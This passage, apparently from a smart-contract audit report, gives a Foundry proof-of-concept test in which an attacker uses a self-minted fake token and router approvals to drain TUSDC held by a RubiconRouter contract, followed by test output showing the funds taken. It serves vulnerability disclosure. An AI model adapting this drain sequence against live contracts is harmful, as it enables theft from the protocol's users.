 The exploit is performed by the following function:

```solidity
  function test_WithRouter() public {
    RubiconRouter router = new RubiconRouter();
    router.startErUp(address(market), payable(address(WETH)));

    address attacker = 0x000000000000000000000000000000000000dACa;
    uint256 routerBalance = 1e10;
    deal(address(TUSDC), address(router), routerBalance); // Set this to simulate current router balance
    deal(address(TUSDC), attacker, 1+1);
    vm.deal(attacker, 1 ether);

    vm.startPrank(attacker);

    // create fake coin which only attacker can mint
    TokenWithFaucet FAKE = new TokenWithFaucet(attacker, "Fake", "FAKE", 18);
    FAKE.adminMint();

    FAKE.approve(address(market), type(uint256).max);
    TUSDC.approve(address(market), type(uint256).max);
    FAKE.approve(address(router), type(uint256).max);
    TUSDC.approve(address(router), type(uint256).max);

    // Create approval for fake coin (otherwise market will not be able to transfer fake coins from router)
    router.offerWithETH{value: 1}(1 /* ETH */, 1, FAKE, 0, attacker);
    router.buyAllAmountForETH(1, FAKE, 1);

    // Assume TEST is a fake token only attacker can mint
    uint256 fees = (routerBalance * (market.getFeeBPS() + market.makerFee())) / 100_000;
    market.offer(1, TUSDC, routerBalance, FAKE, 0, attacker, attacker); // offer 1 usdc for a lot of fake coin

    assertEq(TUSDC.balanceOf(attacker), 1);

    FAKE.transfer(address(router), routerBalance + fees); // give router fake coins so it can buy the offer
    router.maxBuyAllAmount(TUSDC, FAKE, type(uint256).max); // pay 1 usdc for a lot of usdc instead of fake coin (because of the vulnerability)

    assertGt(TUSDC.balanceOf(attacker), 1);
    console.log(TUSDC.balanceOf(attacker));
  }
```

The output of this test shows that funds were stolen from the router:

```shell
Running 1 test for test/foundry-tests/ProtocolDeployment.t.sol:ProtocolDeploymentTest
[PASS] test_WithRouter() (gas: 5216320)
Logs:
  9999000000

Test result: ok. 1 passed; 0 failed; finished in 20.86ms
```
